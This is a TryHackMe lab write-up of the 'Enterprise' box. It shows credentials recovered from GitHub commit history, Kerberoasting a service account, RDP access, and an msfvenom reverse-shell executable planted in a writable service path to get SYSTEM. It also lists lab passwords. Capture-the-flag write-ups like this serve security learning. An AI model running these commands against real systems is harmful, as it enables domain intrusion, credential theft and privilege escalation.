# Enterprise -- TryHackMe (write-up)

**Difficulty:** Medium
**Box:** Enterprise (TryHackMe)
**Author:** dkrxhn
**Date:** 2025-01-22

---

## TL;DR

### Found creds via GitHub commit history and an Excel file with strings. Kerberoasted a service account, cracked it, RDP'd in, found an unquoted/writable service path via WinPEAS, replaced the binary with a reverse shell for SYSTEM.
---
## Target info

- Host: `10.10.0.36`
- Domain: `lab.enterprise.thm`
---
## Enumeration













Found an xlsx file -- ran strings on it:

```bash
strings xlsx
```





---
## GitHub OSINT

GitHub was the hint -- git-dumper **did not** return anything but searching GitHub did.



Found the enterprise-thm account on GitHub. Checked people listed:





Checked commit history for first commit:





Found: `nik:ToastyBoi!`

---
## More credentials



Found: `contractor-temp:Password123!`

---
## Kerberoasting

```bash
GetUserSPNs.py lab.enterprise.thm/nik:'ToastyBoi!' -k -dc-ip 10.10.0.36 -request
```





`bitbucket:littleredbucket`

---
## RDP and service exploitation



```bash
xfreerdp /u:bitbucket /p:'littleredbucket' /v:10.10.0.36 /drive:myfiles,/home/daniel/Documents
```



Ran WinPEAS:

```powershell
.\winPEAS.ps1
```



Found a vulnerable service path. Generated a reverse shell binary:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.90.250 LPORT=1234 -f exe -o service.exe
```



Uploaded and renamed to ZeroTier.exe, placed in the service filepath.

```powershell
net start zerotieroneservice
```







---
## Lessons & takeaways

- GitHub OSINT: check commit history for hardcoded creds that were "removed" in later commits
- Kerberoasting with valid domain creds is always worth running
- WinPEAS finds writable/unquoted service paths -- replace the binary for SYSTEM
- `xfreerdp` with `/drive` flag makes file transfer easy during RDP sessions
